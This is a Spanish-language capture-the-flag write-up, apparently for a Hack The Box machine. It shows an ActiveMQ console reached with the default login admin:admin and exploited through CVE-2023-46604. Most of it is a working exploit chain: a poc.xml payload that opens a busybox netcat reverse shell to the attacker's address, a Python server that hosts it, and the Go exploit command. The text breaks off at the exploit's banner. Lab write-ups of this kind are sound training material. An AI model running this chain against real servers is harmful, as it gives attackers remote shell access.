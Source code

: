 ~~~ 
SF:mp\.StompTransportFilter\.onCommand\(StompTransportFilter\.java:85\)\n\
SF:tat\x20org\.apache\.activemq\.transport\.TransportSupport\.doConsume\(T
SF:ransportSupport\.java:83\)\n\tat\x20org\.apache\.activemq\.transport\.t
SF:cp\.TcpTransport\.doRun\(TcpTransport\.java:233\)\n\tat\x20org\.apache\
SF:.activemq\.transport\.tcp\.TcpTransport\.run\(TcpTransport\.java:215\)\
SF:n\tat\x20java\.lang\.Thread\.run\(Thread\.java:750\)\n\0\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~
### Enumeracion de nombre del dominio
Haciendo un análisis rápido, se puede ver que corre un servidor mqtt, normalmente esto es para dispositivos IoT, esto suele correr en el puerto 1883, pero inspeccionando parece que el broker que utiliza es "activeMQ", revisando la página web, se puede ver que pide unas credenciales y probando credenciales básicas se prueba "admin:admin" y redirige a la interfaz del broker.
![](broker2.jpg)
Se puede ver que nos otorga la versión, por lo que se busca alguna vulnerabilidad para esta versión.

### CVE-2023-46604
Al revisar vulnerabilidades, se encontró un CVE que ejecuta un RCE, por lo que buscando se encontró un repositorio (https://github.com/X1r0z/ActiveMQ-RCE), por lo que replicando este.
Primero se modificó la poc.xml con una reverse shell.
~~~bash
cat poc.xml            
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg >
            <list>
                <value>bash</value>
                <value>-c</value>
                <value>busybox nc 10.10.x.x 4433 -e /bin/bash</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
~~~
Justo despues, se abrió un servidor con la "poc.xml" desde la maquina atacante.
~~~ bash
python3 -m http.server 8080
~~~
Al mismo tiempo, se ejecuta el exploit.
~~~bash
go run main.go -i 10.10.11.243 -p 61616 -u http://10.10.14.17:8080/poc.xml
     _        _   _           __  __  ___        ____   ____ _____ 
~~~
